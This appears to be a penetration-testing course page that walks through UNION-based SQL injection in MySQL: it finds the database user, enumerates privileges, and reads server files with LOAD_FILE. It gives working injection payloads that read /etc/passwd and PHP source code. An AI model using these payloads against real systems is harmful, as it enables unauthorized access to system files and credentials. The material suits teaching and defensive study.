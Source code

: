 # Reading Files

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

***

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

### **DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### **User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

## LOAD\_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD\_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

{% hint style="info" %}
**Note:** We will only be able to read the file if the OS user running MySQL has enough privileges to read it.
{% endhint %}

Similar to how we have been using a `UNION` injection, we can use the above query:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

***

## Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.
